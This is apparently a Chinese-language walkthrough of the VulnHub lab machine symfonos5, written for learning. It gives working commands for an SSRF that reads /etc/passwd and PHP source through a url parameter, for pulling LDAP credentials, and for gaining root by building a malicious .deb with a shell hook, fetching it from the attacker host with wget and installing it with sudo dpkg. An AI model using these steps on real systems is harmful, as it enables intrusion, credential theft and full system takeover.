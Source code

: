 # symfonos5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-5,415/

**Description**

Beginner real life based machine designed to teach people the importance of understanding from the interior.

Tested on VMware and Virtualbox

**知识点**
- ssrf
- ldap
- dpkg 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.151` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.151
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/2.png)

SSH、web、ldap,ldap 一般比较少见,先从熟悉的 web 开始把

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/3.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/4.png)

老样子,啥都没有,爆破目录,字典自 https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/Directory/fast-scan.txt
```bash
./gobuster dir -u 192.168.141.151 -w fast-scan.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/5.png)

访问下这个 admin.php 和 home.php

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/6.png)

home.php 会将我重定向到 admin.php,看看 html 源码

```
curl http://192.168.141.151/home.php
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/7.png)

这个熟悉的 127.0.0.1 看上去是 ssrf 啊,读文件试试

# 中期-漏洞利用

```
curl http://192.168.141.151/home.php\?url\=file:///etc/passwd
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/8.png)

尝试读 admin.php 的源码
```
curl http://192.168.141.151/home.php\?url\=file:///var/www/html/admin.php
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/9.png)

看上去是 LDAP 的凭证。

ldap管理工具有 ldapadmin，JXplorer 等,这里就用 ladpadmin 测试了

访问 https://sourceforge.net/projects/ldapadmin/ 下载安装包,我下的是windows版的,就不演示 linux 平台了

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/10.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/11.png)

连接后可以看到有个 zeus 用户和其密码

SSH 连接上去,寻找提权的方法

---

# 后期-提权

```
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/12.png)

dpkg 以 root 权限运行,上 https://gtfobins.github.io/ 找下 dpkg 相关的内容

在 kali 上运行
```
gem install --no-document fpm
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

python -m SimpleHTTPServer 8080
```

完成后靶机下载POC
```
wget 192.168.141.134:8080/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos5/13.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
